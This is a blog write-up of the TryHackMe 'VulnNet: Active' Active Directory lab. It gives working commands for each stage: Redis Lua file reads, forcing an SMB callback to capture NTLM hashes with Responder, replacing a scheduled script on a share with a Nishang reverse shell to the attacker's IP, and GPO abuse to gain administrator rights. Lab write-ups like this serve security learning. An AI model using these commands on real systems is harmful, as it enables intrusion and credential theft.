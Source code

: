 ```yaml
---
title: "Vulnet active tryhackme"
date:  2023-04-12 15:04:23
categories: [active directory]
tags: [active directory]
---
```



**Enumeration**

This room on tryhackme is all about active directory and domain controller. So let's begin our machine with Nmap scanning.

![enum](https://prabinsigdel.com.np/images/enum.jpg)

Every domain controller services are up and running which is part of AD DC. But `Kerberos` is not running so we can not [AS-REP](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/) roasting the usernames to check if they are valid.
I ran the Nmap to scan all ports.

![enum](https://prabinsigdel.com.np/images/nmap_all.jpg)

Here many ports are open so it is always beneficial to check for all ports. RPC and LDAP services are also running, Smb is a very good option to start with and I did the same.

**SMB port 445 enumeration**

But unfortunately, we got access denied for every possible command of `smbclient, smbmap, and netexec` to enumerate users' share on smb port 445.
It confirms that no guest and a null session are allowed.

**Redis exploitation**

But my eyes got on to port 6379 (Redis). I was unaware of this but [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) are always a good option to search for anything.
Redis is a No-sql database that stores information alongside key-value called keyspaces. The version of Redis key-value store 2.8.2402 is vulnerable to ssrf + CRLF.

![redis](https://prabinsigdel.com.np/images/redis.jpg)

Here we can exploit Redis via ssrf, but we must know the path to the windows server files
`redis-cli -h 10.10.245.19 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\users.txt')" 0`

![redis](https://prabinsigdel.com.np/images/redis_exp.jpg)

we got the users.txt flag. If we can get any files why not exploit further to get Authenticated user's NTLM hash? If we forge redis to connect back to our attacking machine, maybe users' hashes will be exposed.
I set up the responder from impacket, when users from the Redis server try to connect to our machine responder will log the hashes.

`sudo responder -I 10.9.0.31`

`redis-cli -h 10.10.245.19 eval "dofile('//10.9.0.31/test')" 0`

![responder](https://prabinsigdel.com.np/images/responder.jpg)
Since we got the user enterprise-security hash, we cracked with john the ripper and got the password.

**SMB port 445 enumerations 2nd round**

We have now a username and password, so we can enumerate allowed shares on smbserver. I tried to log into enterprise-Share on smb and successfully logged in.
`smbmap -H 10.10.155.156 -u enterprise-security -p pass`

![smbmap](https://prabinsigdel.com.np/images/smbmap.jpg)

`smbclient //10.10.155.156/enterprise-share -U 'enterprise-security' pass`

![smbclient](https://prabinsigdel.com.np/images/smbclient.jpg)

There is a Powershell script scheduled to run, PurgeIrrelevantData_1826.ps1 with content.
`rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue`

Maybe we can replace this script with a reverse shell. We do have written permission for this share.

**Initial foothold**

We use [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell to replace PurgeIrrelevantData_1826.ps1 and put it on the smb server overriding the same file and setting up Netcat listener to catch the shell.
Add this line to the bottom of the script and wait for netcat to catch the shell.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.9.0.31 -Port 4444`

`nc -lvnp 4444`

![shell](https://prabinsigdel.com.np/images/shell.jpg)

Finally, we got reverse shell as enterprise security for the windows server.

**Privilege Escalation**

When I get the foothold on the machine, I always start with winPEAS.exe and it does give me some useful information which is SeImpersonatePrivilege.
I collect domain info with bloodhound-python and upload it to the bloodhound for analyzing users, groups, and domains.
![bloodhound](https://prabinsigdel.com.np/images/bloodhound.jpg)

Here is the shortest path to the admin where we will be abusing one of the `GPO(group policy object)` on which we can edit users' permission, local groups, memberships, and computer tasks.
We use `SharpGPOAbuse.exe` to escalate our privilege.

`.\SharpGPOAbuse.Exe AddComputerTask TaskName "babbadeckl_privesc" 
Author vulnnet\administrator Command "cmd.exe" Arguments "/c net localgroup administrators enterprise-security /add" GPOName "SECURITY-POL-VN"`

`gpupdate \force`

We can access admin via smbclient.
`smbclient //10.10.56.175/C$ -U 'enterprise-security' sand_………..`